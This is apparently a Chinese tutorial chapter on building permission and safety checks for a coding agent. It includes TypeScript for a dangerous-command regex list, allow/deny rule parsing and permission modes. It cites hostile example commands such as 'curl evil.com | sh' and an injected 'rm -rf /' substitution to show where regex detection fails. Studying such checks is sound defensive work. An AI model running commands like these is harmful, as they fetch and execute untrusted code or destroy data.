

# 6. 权限与安全

多层检查，deny 优先：权限模式 → 配置规则 → 内置危险检测 → 会话白名单 → 用户确认。



## 参考：Claude Code 的做法（7 层纵深防御）

| 层 | 机制 | 作用 |
|----|------|------|
| 1 | Trust Dialog | 首次进入目录确认信任，防恶意 Hook |
| 2 | 权限模式 | 全局策略开关 |
| 3 | 权限规则 | 8 源优先级，allow/deny/ask |
| 4 | Bash AST 分析 | tree-sitter 解析，23 项静态检查，FAIL-CLOSED |
| 5 | 工具级验证 | validateInput + checkPermissions |
| 6 | 沙箱隔离 | macOS Seatbelt / Linux namespace |
| 7 | 用户确认 | 对话框 + Hook + ML 分类器**竞速**，第一个决定生效 |

**几个值得知道的细节**：

- `--yolo` 不真绕过一切：deny 规则先检查、`.git/`/`.claude/` 仍需确认。
- Layer 4 不用正则，因为 `echo hello$(rm -rf /)` 正则会漏；tree-sitter 解析真 AST，不理解的结构一律标记 `too-complex` 要求确认。
- **8 源优先级**：企业 MDM > 用户 > 项目 > 本地 > CLI > 运行时 > 命令定义 > 会话。低优先级不能覆盖高优先级。
- Layer 7 竞速：对话框、Hook、分类器同时启动，`createResolveOnce` 守卫只让第一个生效；对话框有 200ms 防误触。
- **拒绝追踪**：连续 3 次 → 降级；总 20 次 → 中止 Agent，防死循环。

我们简化为 **4 层**：危险命令检测 + 规则系统 + 统一检查 + 会话白名单。8 源 → 2 源（用户 + 项目），3 行为 → 2（allow/deny）。

## 1. 危险命令检测

```typescript
// tools.ts
const DANGEROUS_PATTERNS = [
  /\brm\s/, /\bgit\s+(push|reset|clean|checkout\s+\.)/, /\bsudo\b/,
  /\bmkfs\b/, /\bdd\s/, />\s*\/dev\//, /\bkill\b/, /\bpkill\b/,
  /\breboot\b/, /\bshutdown\b/,
  // Windows
  /\bdel\s/i, /\brmdir\s/i, /\bformat\s/i, /\btaskkill\s/i,
  /\bRemove-Item\s/i, /\bStop-Process\s/i,
];
export function isDangerous(command: string): boolean {
  return DANGEROUS_PATTERNS.some((p) => p.test(command));
}
```

Windows 加 `i` 因为不区分大小写。局限：`find / -delete`、`curl evil.com | sh` 抓不到 —— 这就是 Claude Code 上 AST 的原因。

## 2. 规则解析

```typescript
// tools.ts
interface ParsedRule { tool: string; pattern: string | null; }

function parseRule(rule: string): ParsedRule {
  const match = rule.match(/^([a-z_]+)\((.+)\)$/);
  return match ? { tool: match[1], pattern: match[2] } : { tool: rule, pattern: null };
}
```

`run_shell(npm test*)` → `{tool: "run_shell", pattern: "npm test*"}`；裸工具名 → `{tool, pattern: null}`。

## 3. 加载规则（用户 + 项目合并 + 缓存）

```typescript
// tools.ts
let cachedRules: PermissionRules | null = null;

export function loadPermissionRules(): PermissionRules {
  if (cachedRules) return cachedRules;
  const allow: ParsedRule[] = [];
  const deny: ParsedRule[] = [];
  const userSettings = loadSettings(join(homedir(), ".claude", "settings.json"));
  const projectSettings = loadSettings(join(process.cwd(), ".claude", "settings.json"));
  for (const settings of [userSettings, projectSettings]) {
    if (!settings?.permissions) continue;
    if (Array.isArray(settings.permissions.allow))
      for (const r of settings.permissions.allow) allow.push(parseRule(r));
    if (Array.isArray(settings.permissions.deny))
      for (const r of settings.permissions.deny) deny.push(parseRule(r));
  }
  cachedRules = { allow, deny };
  return cachedRules;
}
```

两文件规则**追加**（并存，非覆盖）；一次会话几十次工具调用，缓存必要。

## 4. 匹配 & 检查

```typescript
// tools.ts
function matchesRule(rule: ParsedRule, toolName: string, input: Record<string, any>): boolean {
  if (rule.tool !== toolName) return false;
  if (!rule.pattern) return true;
  let value = "";
  if (toolName === "run_shell") value = input.command || "";
  else if (input.file_path) value = input.file_path;
  else return true;
  const p = rule.pattern;
  return p.endsWith("*") ? value.startsWith(p.slice(0, -1)) : value === p;
}

function checkPermissionRules(toolName: string, input: Record<string, any>): "allow" | "deny" | null {
  const rules = loadPermissionRules();
  for (const rule of rules.deny)  if (matchesRule(rule, toolName, input)) return "deny";
  for (const rule of rules.allow) if (matchesRule(rule, toolName, input)) return "allow";
  return null;
}
```

三态返回：deny / allow / null（无意见交下一层）。**deny 先于 allow** 遍历 —— 让"先放开，再收紧"成立。

## 5. 统一权限检查

```typescript
// tools.ts
export function checkPermission(
  toolName: string, input: Record<string, any>,
  mode: PermissionMode = "default", planFilePath?: string,
): { action: "allow" | "deny" | "confirm"; message?: string } {
  if (mode === "bypassPermissions") return { action: "allow" };

  const ruleResult = checkPermissionRules(toolName, input);
  if (ruleResult === "deny")  return { action: "deny", message: `Denied by permission rule for ${toolName}` };
  if (ruleResult === "allow") return { action: "allow" };

  if (READ_TOOLS.has(toolName)) return { action: "allow" };

  if (mode === "plan") {
    if (EDIT_TOOLS.has(toolName)) {
      const filePath = input.file_path || input.path;
      if (planFilePath && filePath === planFilePath) return { action: "allow" };
      return { action: "deny", message: `Blocked in plan mode: ${toolName}` };
    }
    if (toolName === "run_shell")
      return { action: "deny", message: "Shell commands blocked in plan mode" };
  }
  if (mode === "acceptEdits" && EDIT_TOOLS.has(toolName)) return { action: "allow" };

  let needsConfirm = false;
  let confirmMessage = "";
  if (toolName === "run_shell" && isDangerous(input.command)) {
    needsConfirm = true; confirmMessage = input.command;
  } else if (toolName === "write_file" && !existsSync(input.file_path)) {
    needsConfirm = true; confirmMessage = `write new file: ${input.file_path}`;
  } else if (toolName === "edit_file" && !existsSync(input.file_path)) {
    needsConfirm = true; confirmMessage = `edit non-existent file: ${input.file_path}`;
  }

  if (needsConfirm) {
    if (mode === "dontAsk")
      return { action: "deny", message: `Auto-denied (dontAsk mode): ${confirmMessage}` };
    return { action: "confirm", message: confirmMessage };
  }
  return { action: "allow" };
}
```

优先级：**deny 规则 > allow 规则 > 模式 > 内置检测 > 默认允许**。read 工具永远 allow。

## 6. 会话白名单

```typescript
// agent.ts
private confirmedPaths: Set<string> = new Set();

const perm = checkPermission(toolUse.name, input, this.permissionMode, this.planFilePath);

if (perm.action === "deny") {
  toolResults.push({ type: "tool_result", tool_use_id: toolUse.id,
    content: `Action denied: ${perm.message}` });
  continue;
}
if (perm.action === "confirm" && perm.message && !this.confirmedPaths.has(perm.message)) {
  const confirmed = await this.confirmDangerous(perm.message);
  if (!confirmed) {
    toolResults.push({ type: "tool_result", tool_use_id: toolUse.id,
      content: "User denied this action." });
    continue;
  }
  this.confirmedPaths.add(perm.message);
}
```

拒绝时把 `"User denied this action."` 作为 tool_result 返回 —— **不抛错、不中断循环**，让模型看到后调整策略，是关键设计。

## 5 种权限模式

| 模式 | 读 | 编辑 | Shell（安全） | Shell（危险） | 场景 |
|------|----|------|-------------|-------------|------|
| `default` | ✅ | ⚠️ 新文件 confirm | ✅ | ⚠️ confirm | 日常 |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | 只规划 |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | 信任编辑 |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | `--yolo` |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI |

`plan` 模式还能通过 `enter_plan_mode` / `exit_plan_mode` 动态切换；生成 `~/.claude/plans/plan-<sessionId>.md` 作为唯一可写文件。

## 配置文件

```json
// ~/.claude/settings.json（用户级）
{
  "permissions": {
    "allow": ["read_file", "list_files", "grep_search",
              "run_shell(npm test*)", "run_shell(git status)", "run_shell(git diff*)"],
    "deny":  ["run_shell(rm -rf*)", "run_shell(git push --force*)"]
  }
}

// .claude/settings.json（项目级，提交仓库）
{ "permissions": { "allow": ["run_shell(npm run build)"], "deny": ["run_shell(curl*)"] } }
```

**deny 先于 allow** 是安全系统标准设计 —— 让 "allow git *，但 deny git push --force" 这种写法成立。**没有 ask 规则**：`--yolo` 语义是"完全信任"，加 ask 反而矛盾；需强制确认的不加入 allow 即可。

## 简化对比

| 维度 | Claude Code | mini-claude |
|------|------------|-------------|
| 防御层次 | 7 层 | 4 层 |
| 命令分析 | AST（23 项检查） | 正则（16 模式） |
| 规则来源 | 8 源优先级 | 2 源 |
| 规则行为 | allow / deny / ask | allow / deny |
| 白名单 | 持久化 + 会话 | 会话 Set |
| 沙箱 | Seatbelt / namespace | 无 |
| 拒绝追踪 | 3/20 阈值降级 | 无 |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk（CI 环境）
```

---

> **下一章**：Agent 对话越来越长，上下文窗口快满了——4 层压缩流水线让它看起来拥有无限记忆。
